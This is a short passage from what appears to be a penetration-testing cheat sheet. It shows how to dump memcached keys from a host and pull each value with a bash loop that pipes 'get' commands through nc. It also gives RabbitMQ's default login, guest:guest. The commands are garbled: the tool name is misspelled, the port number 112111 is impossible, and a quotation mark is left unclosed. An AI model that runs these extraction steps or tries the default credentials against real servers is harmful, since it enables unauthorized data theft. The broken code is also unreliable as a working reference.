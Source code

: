 #### ➤ Extraction data script
```
➤ Install and use memcdump
mencdump --verbose --debug --servers=10.0.0.1 | tee keys.lst

➤ Execute the script
#!/bin/bash

file="keys.lst" #file which contains the keys
while read -r line
do
    echo "get $line | nc -vn -w 1 10.0.0.1 112111 > $line.txt
done < $file
```

## 🔻Port 15672 - RabbitMQ
```
The default credentials are guest:guest
```
